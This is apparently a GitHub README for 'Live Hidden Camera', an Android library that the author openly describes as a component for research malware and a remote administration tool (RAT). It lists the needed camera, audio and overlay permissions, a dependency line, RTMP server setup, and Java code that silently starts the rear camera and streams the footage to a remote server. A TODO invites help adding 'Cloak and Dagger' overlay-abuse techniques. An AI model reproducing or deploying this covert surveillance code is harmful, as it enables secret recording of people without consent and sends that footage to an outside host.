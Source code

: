 # Live Hidden Camera

Live Hidden Camera (LHC) is a library which record live video and audio from Android device without displaying a preview.
![Live Hidden Camera](https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/Live%20Hidden%20Camera.gif)

## Motivation
I'm working on a research based Android Malware and decided to create a multi function RAT (Remote Administration Tool). I was working on Live Streams which I've found some RTMP based open sources projects including:

 - https://github.com/begeekmyfriend/yasea
 - https://github.com/ant-media/LiveVideoBroadcaster
 - https://github.com/TakuSemba/RtmpPublisher
 - https://github.com/fyhertz/libstreaming
which, all have some kind of problems based on the requirements of a RAT. But the common one was that they all need an activity to include a `SurfaceView`.

Therefore, I've started searching. Finally, I could create **Live Hidden Camera** which only needs a **CONTEXT** for stream live video, by combining these two projects:

 1. https://github.com/begeekmyfriend/yasea
 2. https://github.com/kevalpatel2106/android-hidden-camera

# How to use
I've created a library to make it more usable. The only requirement is to add the library to your project and pass the Rtmp URL to it.

Additionally you should care about:

 1. Your application should have the following permissions in `Manifest.xml`:
 - \<uses-permission android:name="android.permission.INTERNET" />  
- \<uses-permission android:name="android.permission.CAMERA" />  
- \<uses-permission android:name="android.permission.RECORD_AUDIO" />  
- \<uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW" />

 2. You should handle that the declared permissions are granted to your application

<img src="https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/Permissions1.png" width="350">
<img src="https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/Permissions2.png" width="350">

## Adding library
The usage of the library is straight. Just add the following library to the `gradle.build` file of your project.

`compile 'ir.mstajbakhsh.android:LiveHiddenCamera:0.1.0'`

## Creating RTMP server
Before using the library, you should have deployed an Rtmp server. I've ued [Ant Media Server](https://github.com/ant-media/Ant-Media-Server). There is a nice guide on Ant Media Server installation in [THIS LINK](https://github.com/ant-media/Ant-Media-Server/wiki/Getting-Started).

After starting the Ant Media Rtmp server, you should see something like this:
![Ant Media Server](https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/AntMediaServer.png)

## Sample Code
After adding the library to your project, do the following steps:

 1. Create a class which implements: `RtmpHandler.RtmpListener, SrsRecordHandler.SrsRecordListener, SrsEncodeHandler.SrsEncodeListener`
 2. Create two fields (one for publish and one for preview): 

    private SrsPublisher mPublisher;  
    private SrsCameraView mCameraView;

 3. Implement a function for starting the Live Hidden Camera:
 

    private void initHiddenCam(String rtmpURL) {  
    HiddenCameraLayout l = new HiddenCameraLayout(getApplicationContext(), new HiddenCameraLayout.PermissionHandler() {  
        @Override  
  public void onPermissionNotGrantedException(Exception ex) {  
            Log.d("HCL", "Ask user to grant permission.");  
            Log.e("HCL", ex.getMessage());  
        }  
    });  
  
    //start config  
  CameraConfig cameraConfig = new CameraConfig()  
            .getBuilder(MainActivity.this.getApplicationContext())  
            .setCameraFacing(CameraFacing.REAR_FACING_CAMERA)  
            .build();  
  
  
    mCameraView = l.initHiddenLayout(cameraConfig);  
  
    mPublisher = new SrsPublisher(mCameraView);  
    mPublisher.setEncodeHandler(new SrsEncodeHandler(this));  
    mPublisher.setRtmpHandler(new RtmpHandler(this));  
    mPublisher.setRecordHandler(new SrsRecordHandler(this));  
    mPublisher.setPreviewResolution(640, 360);  
    mPublisher.setOutputResolution(640, 360);  
    mPublisher.setVideoHDMode();  
    mPublisher.startPublish(rtmpURL);  
    mPublisher.startCamera();  
}

# Problems
## Green Screen
The main problem I currently facing, is the green screen. I've described the error in StackOverflow in https://stackoverflow.com/questions/56380851/getting-green-image-while-preview-hidden-live-video

If you have any suggestion about this problem, or any other idea, do not hesitate contacting me.

## Constant View
Because of the overlay of the Live Hidden Camera, no other apps can be clicked. The clicks are only accepted by the LHC. Check **TODO** section.

# TODO
There is a project called *Cloak and Dagger* which unraveled a very dangerous ability in Android. Any contribution in using the *Cloack and Dagger* in LHC is welcomed.

Check the *Cloak and Dagger* here:

 1. http://cloak-and-dagger.org
 2. https://medium.com/@targetpractice/cloak-and-dagger-malware-techniques-demystified-c4d8a035b94e
 
# Contact
You can reach me from my website: https://mstajbakhsh.ir/

